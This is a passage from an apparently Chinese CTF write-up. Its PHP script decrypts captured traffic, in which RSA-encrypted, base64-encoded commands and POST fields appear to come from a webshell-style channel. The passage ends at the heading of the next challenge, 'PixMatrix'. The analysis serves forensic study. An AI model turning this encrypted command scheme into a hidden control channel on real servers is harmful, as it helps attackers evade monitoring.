'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'];

$_POST["y21db7ea65d36d"] = ['ZqGizxiHeHVBCCyvo46huPPtI7TBLmoEQP/GX9AGPW1ewqeV+9/LeJVWT1o0ALkFCVj1DDfutzXfrIQdpVh+HBoVUiGjjG8sSRiEPfRJmzAzVxR+9nnwrF4EObavmAA3Hh/0TBtirl+9iUEU8bN5TrnV6Gq5y2RbYeE3Mri2K/0=', 'b46b/qgtImXh6TF3gxU2HZHjmKbjhV5WXV5d1wqTANk6v7RKgR/Tq/IzYnIGwduVwwX2mf/kXl2OwqEwmhaqc2xoUK0EytOYe8y+tw+oE8C1AGMVEPVEH/LM77s4iU81SQqr5nPHQjSprv8UQR0tIUfB42JgSuw82SxoR8T3Nc0=', 'g8K2XGqaUSdc2og56FbCAgHsAdlcxQajw7hJ5cUOe2ix93yk8MhwnWvAkHcXy/PQG9Da9ScixBzJFw/dnINflq4yLkp8N/07JSZgg7DPLz/o1se4+yMv6H+IP2cD0Q1UU2n4PAEbCtAA60m0kczWz/fE81DbVj6JxgWl+EmElOI=', 'Wjero64jDdIPWXLGz1rrNCfjcjJhJlH2NmUIT8WK7thISuS/Bm7RnnFyIC4jnkhuX4ZTtsY3IWuAO41R2JfBcZi5fZlPDLdDn5ojOmm5CRcHacCFy7KTmDtYtSsjD5vzBaKrMfF2tRN8bnd8CT91V6rg40ff2+9HvHjH7BBhXUI=', 'aG30z0UroESpnX1CNbp2HS4DrVWrtqOWs1Jpw5ONcWdr64bkB05DdNHpW5Nqh9xVvlJTuVXWyrPc4V12GwmuN4ifN8TtHCq1n4/TnY/BerzzYaXrp89iXXkXmwRUFEqJ+iOVNjAzfdTdnRPaMPtRUFQjugF0U+3AYa9SrnsLrLk=', 'QCXq2VxN88Rey14xm35TsRqAj1cbIgKma0PxY2qrJ6DRD8D6JhT0CbF37pQDUyFU1iuBhR/h4tVd/k8PCBRoKOPF2R/1jDol3EQAWLSYZUd8mOCY72XD2wnnltTTHqB26N5nbm6qaGx5fi0PWH++Ds0mrCiJsE2+fMFIXDGCXag=', 'kqNJjIRlbVMlD8E5yPJmYBzTNKxSVpKARQOeA2K9SCUeMZEARoaru3aL91Qefzo/fhWCWEwieXyeBZdjE8c1dY73u7D/jneXW68krQXndzrNwFTDQRyiOvZJRREQ7ZNOyDmB7ltpLv+mizWTv/bQezF7sbIh4KswbjXuCj8w0NE=', 'BvzvMn7WAaWgqdlyMbUzEzgRDr3PFNgwIClZ3C7JTMMTqhErpNgvrLxHVoNelTJsj9y1VatUKGRir9qs67L++SYMICBLTiu3ZctGtdmsxufbTMYfWr8EbiiDd0bYhPvYbzlHU1MlI+fpEUUrGckC5caeVcHaqNB7tdhDJvFms4E=', 'ecC2GvhvXqIFNVLx8g1YPX+VeUOiFKLDHik8NnmrCbPQFtduUwvhiMT2joMHhr5f5fOVi/jpwrlC2yR2jhPDtmIl8nkJqnTd+uBykNguN5moHixbKWMMv8HYejnT7CLGmTxLDzTrQlICua+4O31jOOmDrrLuUdLKI2uaQ1FUAMc=', 'Hg8A03izTr7zhommneQYE2d9UO+EpWtU3Q9rYM3YnJf7SkVcw9+NHKno7COU1NVbXiHJjV2bTDcVnAkQeJJqZGXNJfR3kSo3XYlwXZGWatrccd/ADyu7E+Bt4oXtp4pDpafhDJLh40cd6jprQnIYxDYBcs4o6CJjvR7JpOLmC0A=', 'YsLUw+DPF6JpxvD0B8blORoPd3xe6y4P0gYWlHgRwnlCRjyS3LlKRbY2lqrtulh/MRz0yGOSYjifa0c4sbqsbIf+ENFXmiqqm3ySPjXWl4z2wdrZMEV4ZXp6VXTxNk6cizDoONBDXXuTziZDB+DAev3+6HHtaI5tspkMVap2ou4=', 'GyS1qCDux10wqJhGI7tKn4MTwRiRhAMoN3/DpO2ehtOkp/G0tS1Dhi8tdpWU6OqqtxPs/6G/GqEoC1PU2StQzal0QO06pAXixlMvx1lkHmAOAj7GI5vWnETeyrTUBkGwdRki3+VlvU1eUOVhJLg046EMaJsy5z4Zz7Xn++d1BsM=', 'KY2kr0R6yNTgxw40gZEZKGfZslgQEEEOqRADN2skaB+hdfniw7t/eV7YrDbJfkzaPo+oUGbebR4IRPcWgeIYJjtte9h/y/ugcFu2SmZ6PEIp35gin1LKqWehNA9gnXeRVP/zpAD7kmVK5PMfWU32V7lvp6Dn00KdpH5CPHWcQO8=', 'IRX0gA23Zu3I8rlcswv+iqJIfs3Kf5jKmiq3FrB0Zcs2N7VfZE7y3qy7/T2OAC98KrO874t0tOLDxhBw6hDz6zKRINRjZLy4cQC1MhUWJG0lqX2cI25ePHfmPUpFnRUzZBBkuP7TqFO+PzJiLA8V9cxe7uWpt2dw/cC11r+k29Y=', 'MmCqLxv78f+GCRBM16oPUgQCiSn6yB9O0UuVILu/e0ISAWsXvInQT+VqU3dORntNyV5+VSbrn7u0in1c4PJHz5oH0wVcdwVbeH+K6CLOVF43Pi1HkWiKREECpLKO8ClDkDLeAbZ5SVgSjVuUqVT5f4TOKKSB/EZVnWlIE1PJrH4=', 'gyfTIHW5Ov921U8HQ/3qENdIwwMoBm8JJ0KI1XoLBNDDEYLKX8+EGNlNZikwBCOPNiP8FYftgUTQzS5DokJzDm4TG89k49i1In8Oeekdb1phbZkUWpboWv9+VPTEc5VH+wCM/l8FA0wvZsm/iqfwe6grn3C6PUNP+AOo0QcywKw='];

$pk = <<<EOF
-----BEGIN PUBLIC KEY-----
MIGfMA0GCSqGSIb3DQEBAQUAA4GNADCBiQKBgQCfhiyoPdM6svJZ+QlYywklwVcx
PkExXQDSdke4BVYMX8Hfohbssy4G7Cc3HwLvzZVDaeyTDaw+l8qILYezVtxmUePQ
5qKi7yN6zGVMUpQsV6kFs0GQVkrJWWcNh7nF6uJxuV+re4j+t2tKF3NhnyOtbd1J
RAcfJSQCvaw6O8uq3wIDAQAB
-----END PUBLIC KEY-----
EOF;

$cmds = explode("|", $cmd);
$pk = openssl_pkey_get_public($pk);
$cmd = '';
foreach ($cmds as $value) {
    if (openssl_public_decrypt(base64_decode($value), $de, $pk)) {
        $cmd .= $de;
    }
}
//echo $cmd;

$length = count($_POST[array_key_first($_POST)]);  // 获取任意一个子数组的长度
//echo $length; // 16

for ($i = 0; $i < $length; $i++) {
    $res = "";
    openssl_public_decrypt(base64_decode($_POST["l6eca85c56d82c"][$i]), $de, $pk);
    $res .= base64_decode(substr($de, 2)) . " ";
    openssl_public_decrypt(base64_decode($_POST["u51aea36fa19a7"][$i]), $de, $pk);
    $res .= base64_decode(substr($de, 2)) . " ";
    openssl_public_decrypt(base64_decode($_POST["y21db7ea65d36d"][$i]), $de, $pk);
    $res .= base64_decode(substr($de, 2));
    echo $res . "\n";
}
```


## 题目名称 PixMatrix

---

> 作者: [Lunatic](https://goodlunatic.github.io)  
> URL: https://goodlunatic.github.io/posts/69e332a/  

